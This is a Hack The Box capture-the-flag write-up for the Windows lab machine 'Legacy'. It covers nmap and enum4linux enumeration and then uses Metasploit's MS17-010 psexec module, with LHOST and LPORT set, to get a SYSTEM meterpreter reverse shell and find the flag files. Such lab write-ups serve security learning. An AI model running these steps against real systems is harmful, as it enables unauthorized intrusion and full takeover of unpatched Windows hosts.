 # Legacy Write-Up (English Version)
This is my write-up about **Legacy** which is an active Windows machine on **Hack The Box** having the IP Address `10.10.10.4`.

![legacy-card](img/legacy-card.png)
## Target Enumeration

### Nmap Initial Scan
---

I first started by doing my usual type of `Nmap` scan, which is a SYN scan, scanning for service version and running the default `NSE script` of `Nmap` 

Note : SYN scan require you to perform the command as `root`

```
 sudo nmap -sSVC -p- 10.10.10.4 -oA nmap/nmap_initial_scan.log
```

![nmap-scan](img/nmap-scan.png)
<br>

### Nmap Vuln Scan
---

After the scan result, we can see that we only have ports open on some SMB services from windows. So I decided to run a vulnerability scan with `Nmap` to see if the SMB services are exploitable.

```
sudo nmap -script vuln -p- 10.10.10.4 -oA nmap/nmap_vuln_scan.log
```

![nmap-vuln](img/nmap-vuln.png)

We can see that the SMB ports seems to be vulnerable to `ms17-010`, which is good to know so let keep this in mind.

<br>

### Enum4linux
---

When I'm dealing with SMB shares, I usually like run tool like `enum4linux` which can enumerate all the share on a given host and can also do stuff like gathering password policy, enumerate username, etc...

```
┌──(op㉿kali)-[~/htb/Legacy]
└─$ enum4linux -A 10.10.10.4
Unknown option: A
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Sep  7 19:27:45 2021
...
 ================================================== 
|    Enumerating Workgroup/Domain on 10.10.10.4    |
 ================================================== 
[+] Got domain/workgroup name: HTB

 ========================================== 
|    Nbtstat Information for 10.10.10.4    |
 ========================================== 
Looking up status of 10.10.10.4
	LEGACY          <00> -         B <ACTIVE>  Workstation Service
	HTB             <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
	LEGACY          <20> -         B <ACTIVE>  File Server Service
	HTB             <1e> - <GROUP> B <ACTIVE>  Browser Service Elections
	HTB             <1d> -         B <ACTIVE>  Master Browser
	..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser

	MAC Address = 00-50-56-B9-26-64

...

 ===================================================================== 
|    Users on 10.10.10.4 via RID cycling (RIDS: 500-550,1000-1050)    |
 ===================================================================== 
[E] Couldn't get SID: NT_STATUS_ACCESS_DENIED.  RID cycling not possible.

 =========================================== 
|    Getting printer info for 10.10.10.4    |
 =========================================== 
No printers returned.


enum4linux complete on Tue Sep  7 19:27:57 2021
```

We got two shares that we can possibly log in to with `anonymous` account, so let's try that.

<br>

## Abusing SMB shares
---

That was good to check, but unfortunately I can't seem to be able to login, the connection closed right after it succeed logging is as `anonymous`

![smb-anonymous](img/smb-anonymous.png)
<br>

## Metasploit 

### Msfconsole
---

So since we can't access the share manually, let's check for `ms17-010` in `msfconsole`

```
msfconsole
```

![msfconsole](img/msfconsole.png)

Here we want to search for `ms17-010` vulnerability, so we only need to ask our good friend `Metasploit`.

```
msf6 > search ms17-010
```

![search-exploit](img/search-exploit.png)

And we can see four results coming up, for this case I will take the second one, since it is not EternalBlue which often fails. We can choose the exploit by typing this in `msfconsole` prompt: 

```
msf6 > use 1
```

We can also type `options` to see the list of options that we can edit in our exploit before sending it to the target machine. In our case we only need to modify three variables: 
 - `LHOST`
 -  `LPORT` 
 -  `RHOSTS`

So let's set the three variables and send the exploit to our target.

```
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.4
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST [YOUR_IP]
msf6 exploit(windows/smb/ms17_010_psexec) > set LPORT [YOUR_PORT]
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
```

And we got ourselves a sweet `meterpreter` shell. We can type `getuid` to know which user we are. As we can see here, we are already `NT AUTHORITY/SYSTEM`.

![meterpreter](img/meterpreter.png)

<br>

### Meterpreter Session
---

So let's spawn an OS shell on the target and search for both `root.txt` and `user.txt`.
To do that just go to the root of `C:\` and type the following command :

```
dir /s/b [YOUR_FILE]
```

![proof](img/proof.png)

Only need to gather the flag within the files, and we are now done with this box that we have just owned.